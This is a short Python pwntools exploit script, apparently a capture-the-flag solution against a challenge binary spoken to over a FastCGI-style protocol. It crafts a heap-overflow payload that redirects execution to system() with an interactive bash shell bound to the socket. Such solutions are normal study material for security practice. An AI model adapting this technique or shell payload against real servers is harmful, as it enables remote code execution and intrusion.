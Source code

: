 ```python
#!/usr/bin/env python3
from pwn import *

exe = context.binary = ELF('./files/challenge')

def start():
    return remote("35.241.98.126", 32232)
    # return remote("127.0.0.1", 9999)

def makeHeader(reqType: int, reqId: int, contentLen: int, padLen: int) -> bytes:
    return p8(1) + p8(reqType) + p16(reqId) + p16(contentLen)[::-1] + p8(padLen) + p8(0)

def makeBeginReqBody(role: int, flags: int) -> bytes:
    return p16(role)[::-1] + p8(flags) + b"\x00" * 5

# NOTE: didn't handle messy environment like official writeup

# First, send a normal request to set up heap
io = start()
io.send(
    b'\x01\x01\x00\x01\x00\x08\x00\x00\x00\x01\x00\x00\x00\x00\x00\x00\x01\x04'
    b'\x00\x01\x01\xae\x00\x00\x0e\x01CONTENT_LENGTH0\x0c\x00QUERY_STRING'
    b'\x0b\x01REQUEST_URI/\x0f\x03REDIRECT_STATUS200\x0b\x01SCRIPT_NAME/'
    b'\x0f\x0eSCRIPT_FILENAME/home/ctf/www/\r\rDOCUMENT_ROOT/home/ctf/www'
    b'\x0e\x03REQUEST_METHODGET\x0f\x08SERVER_PROTOCOLHTTP/1.1\x0f\x0fSERVER_SOFTWARElighttpd/1.4.79'
    b'\x11\x07GATEWAY_INTERFACECGI/1.1\x0e\x04REQUEST_SCHEMEhttp\x0b\x04SERVER_PORT8888'
    b'\x0b\tSERVER_ADDR127.0.0.1\x0b\tSERVER_NAME127.0.0.1\x0b\tREMOTE_ADDR127.0.0.1'
    b'\x0b\x05REMOTE_PORT47740\t\x0eHTTP_HOST127.0.0.1:8888\x0f\x0bHTTP_USER_AGENTcurl/8.14.0'
    b'\x0b\x03HTTP_ACCEPT*/*\x01\x04\x00\x01\x00\x00\x00\x00\x01\x05\x00\x01\x00\x00\x00\x00'
)
io.recvuntil(b'HELLO!')
io.close()

# Seccond, make a malicious payload
io = start()
io.send(
    makeHeader(1, 1, 8, 0) + makeBeginReqBody(1, 0) + makeHeader(9, 0, 900, 0) + \
        p8(0) * 2 + \
        p32(0xffffffff) * 2 + cyclic(16) + b" ;bash -i <&3 >&3 &".ljust(20) + \
        p32(0) * 3 + p32(exe.plt["system"])
)

io.interactive()
```
